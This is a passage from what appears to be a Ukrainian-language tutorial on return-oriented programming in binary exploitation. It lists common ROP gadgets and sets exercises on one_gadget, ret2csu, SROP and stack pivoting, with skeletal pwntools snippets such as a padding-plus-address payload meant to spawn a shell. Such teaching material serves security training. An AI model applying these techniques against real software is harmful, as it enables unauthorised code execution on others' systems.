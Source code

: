 **Корисні gadget'и:**
```asm
pop rdi; ret              # Найпоширеніший
pop rsi; pop r15; ret     # rsi часто з r15
pop rdx; pop rbx; ret     # rdx часто з rbx
pop rax; ret              # Для syscall number
syscall; ret              # Прямий системний виклик
```

## 🎓 Практичні завдання

### Завдання 1: One gadget (якщо пощастить)

```bash
one_gadget ./libc.so.6
```

One gadget - адреса в libc що одразу викликає shell, якщо виконані певні умови:

```python
# Якщо є one_gadget
one_gadget_addr = libc.address + 0x...  # З виводу one_gadget
payload = b'A' * 72 + p64(one_gadget_addr)
# Може спрацювати якщо умови виконані!
```

### Завдання 2: ret2csu (Universal gadget)

У кожному бінарнику є `__libc_csu_init` з корисними gadget'ами:

```python
csu_pop = 0x...  # адреса в __libc_csu_init
# Дозволяє встановити rbx, rbp, r12, r13, r14, r15
# Корисно коли немає простих pop gadget'ів
```

### Завдання 3: SROP (Sigreturn ROP)

Просунута техніка через `sigreturn`:

```python
# Контролює ВСІ регістри одразу
frame = SigreturnFrame()
frame.rdi = arg1
frame.rsi = arg2
frame.rdx = arg3
frame.rip = syscall_addr
```

### Завдання 4: Stack pivot

Якщо буфер малий, перенесіть стек в іншу область:

```python
# Gadget: xchg rax, rsp; ret або mov rsp, rax; ret
# Дозволяє працювати з більшим простором
```

